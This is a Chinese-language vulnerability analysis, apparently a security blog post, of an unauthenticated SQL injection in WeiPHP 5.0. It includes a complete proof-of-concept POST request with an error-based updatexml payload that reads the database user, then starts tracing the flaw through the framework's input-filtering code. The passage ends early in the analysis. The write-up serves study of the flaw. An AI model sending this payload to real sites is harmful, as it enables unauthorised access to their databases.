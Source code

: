 0x00 前言
=======

WeiPHP5.0是一个开源，高效，简洁的移动应用系统，它实现一个后台同时管理和运营多个客户端。WeiPHP5以前的版本都是基于ThinkPHP3.2版本开发，5.0以后升级了ThinkPHP5的架构。

WeiPHP在5.0版本存在多个SQL注入漏洞，也被分配了CNVD编号，有一定的影响力，然而网上只流传着一纸poc，没有相关的分析干货，基于学习探究的目的，笔者试着就其中一个SQL注入的漏洞进行分析。

漏洞来源：

[WeiPHP5.0 SQL注入漏洞2\_N0puple的博客-CSDN博客\_weiphp](https://blog.csdn.net/csdn_Pade/article/details/124620983)

0x01 poc
========

```php
POST /weiphp5/public/index.php/home/Index/bind_follow HTTP/1.1
Host: 192.168.249.128:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en;q=0.7,zh-HK;q=0.6,en-US;q=0.5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

uid%5b0]=exp&uid[1]=)%20and%20updatexml%0a(1,concat(0x7e,/*!user*/(),0x7e),1)--+
```

0x02 分析
=======

是一个免登录的前台sql，危害较大

先根据报错信息定位漏洞入口文件

![Untitled.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-116c7a0ad29ec829f2be3aa3582c59e1552174d3.png)

进入`/application/home/controller/Index.php`

![Untitled 1.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-d0ede917f9a58a8e711e7e9f7b4f5f65f6573d46.png)

对thinkphp架构熟悉的话，可以知道 `I` 函数就是一个过滤输入的函数，先`ctrl` 跟进看看代码

来到 `application/common.php`

![Untitled 2.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-19630e7ecd0393e5517352033899894f0de85041.png)

继续进入 `input` 函数
